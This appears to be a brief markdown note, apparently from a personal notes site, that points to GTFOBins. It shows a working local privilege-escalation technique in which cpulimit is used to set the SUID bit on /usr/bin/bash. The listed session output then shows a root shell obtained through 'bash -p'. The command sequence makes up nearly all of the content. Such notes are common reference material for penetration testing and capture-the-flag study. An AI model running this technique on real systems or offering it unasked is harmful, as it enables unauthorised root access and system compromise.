 ```yaml
---
layout: article
title: gtfobins
tags: tools 
---
```




<https://gtfobins.github.io/>





### cpulimit

```bash
$ cpulimit -l 100 -f chmod +s /usr/bin/bash
Process 2234 detected
Child process is finished, exiting...
$ /usr/bin/bash -p
bash-5.0# whoami
root
```

